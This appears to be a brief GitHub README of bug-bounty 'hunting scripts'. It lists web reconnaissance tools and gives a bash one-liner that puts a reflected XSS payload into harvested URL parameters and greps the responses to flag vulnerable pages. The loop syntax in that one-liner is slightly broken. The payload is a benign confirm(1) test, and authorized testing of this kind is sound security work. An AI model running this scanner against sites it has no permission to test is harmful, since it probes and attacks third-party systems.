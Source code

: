 # Some hunting scripts

## Tools:
https://github.com/tomnomnom/gf

https://github.com/tomnomnom/waybackurls

https://github.com/lc/gau

https://github.com/tomnomnom/qsreplace

https://github.com/projectdiscovery/httpx

https://github.com/tomnomnom/httprobe

https://github.com/tomnomnom/anew

https://github.com/devanshbatham/ParamSpider

## Find and testing XSS

```bash
python3 paramspider.py -d domain.com
```

### Output file has stored on output/domain.com.txt

```bash
cat domains.com.txt | gf xss | qsreplace '"><script>confirm(1)</script>' | while read host do; do curl --silent --insecure $host | grep -qs "<script>confirm(1)" && echo "[*] XSS HERE $host" ; echo $host; done
```
